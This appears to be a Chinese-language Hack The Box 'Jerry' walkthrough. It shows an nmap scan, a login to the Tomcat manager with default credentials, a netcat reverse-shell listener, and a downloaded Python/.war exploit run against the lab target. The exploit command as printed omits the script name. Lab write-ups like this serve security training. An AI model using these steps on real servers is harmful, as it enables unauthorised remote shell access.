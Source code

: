 ```yaml
---
description: hack the box - Jerry box的中文教程
---
```


# Hack the box - Jerry

用kali linux指令 `nmap -sC -sV {目标IP}`  扫描靶机

![](<.gitbook/assets/1 (2).PNG>)

从上图可知，靶机上运行的服务器版本是 Apache Tomcat/Coyote JSP engine 1.1 这时候，我们需要搜索这个服务器版本，看看这个版本有没有漏洞可以被利用。

![](.gitbook/assets/2.PNG)

现在，在浏览器输入这个网址 `http://{靶机IP}:8080`&#x20;

![](.gitbook/assets/屏幕截图\(1\).png)

点击 Cancel 后会出现账户名和密码

![](.gitbook/assets/屏幕截图\(2\).png)

用获取的账号密码登录

![](.gitbook/assets/屏幕截图\(3\).png)

在这个页面里面，我们可以发现，这个服务器允许上传文件。这时候，我们需要一点外部的帮助

{% embed url="https://github.com/nullarmor/hackthebox-exploits/tree/master/jerry" %}

从这个Github 链接里下载两个文件，一个.py文件，一个.war文件。将两个文件放在Kali的同一个文件夹中。然后再打开一个shell，在刚打开的shell中输入 `nc -lvp 4444` 。这个指令的目的是让netcat在4444端口上监听reverse shell。用指令 cd 转到下载了.py 和.war 文件的文件夹中。输入指令 `python3 --rhost http://{靶机IP}:8080 --login tomcat --password s3crot --lhost {本机IP} -lport 4444` 来攻击靶机

![](.gitbook/assets/屏幕截图\(5\).png)

然后你就有shell了

![](<.gitbook/assets/屏幕截图(6) (1).png>)

最后做一点小总结。我这篇笔记很大程度上都是照着nullarmor的一篇笔记做得。他写的python 和 war文件我都不是很理解。有兴趣的话大家可以自己去看源码。

{% embed url="https://nullarmor.github.io/posts/jerry" %}

{% embed url="https://www.exploit-db.com/exploits/43008" %}
